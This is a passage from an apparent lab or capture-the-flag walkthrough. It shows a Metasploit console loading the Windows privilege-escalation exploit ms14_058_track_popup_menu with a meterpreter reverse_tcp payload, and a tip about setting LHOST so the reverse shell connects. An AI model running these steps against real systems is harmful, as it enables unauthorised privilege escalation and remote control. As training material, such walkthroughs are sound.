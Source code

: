 Be sure to check the `options` and see if the `LHOST` is set correctly, sometimes this can be the reason you are not getting a shell.

```sh
[msf](Jobs:0 Agents:1) post(multi/recon/local_exploit_suggester) >> use exploit/windows/local/ms14_058_track_popup_menu                                                                                                                                       
[*] Using configured payload windows/meterpreter/reverse_tcp                                                                                                                                                                                                  
[msf](Jobs:0 Agents:1) exploit(windows/local/ms14_058_track_popup_menu) >> set session 2                                                                                                                                                                      
session => 2                                                                                                                                                                                                                                                  
[msf](Jobs:0 Agents:1) exploit(windows/local/ms14_058_track_popup_menu) >> options                                                                                                                                                                            

Module options (exploit/windows/local/ms14_058_track_popup_menu):                                                                                                                                                                                             

   Name     Current Setting  Required  Description                                                                                                                                                                                                            
   ----     ---------------  --------  -----------                                                                                                                                                                                                            
   SESSION  2                yes       The session to run this module on                                                                                                                                                                                      


Payload options (windows/meterpreter/reverse_tcp):                                                                                                                                                                                                            

   Name      Current Setting  Required  Description                                                                                                                                                                                                           
   ----      ---------------  --------  -----------                                                                                                                                                                                                           
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)                                                                                                                                                             
   LHOST                      yes       The listen address (an interface may be specified)                                                                                                                                                                    
   LPORT     4444             yes       The listen port                                                                                                                                                                                                       


Exploit target:                                                                                                                                                                                                                                               

   Id  Name                                                                                                                                                                                                                                                   
```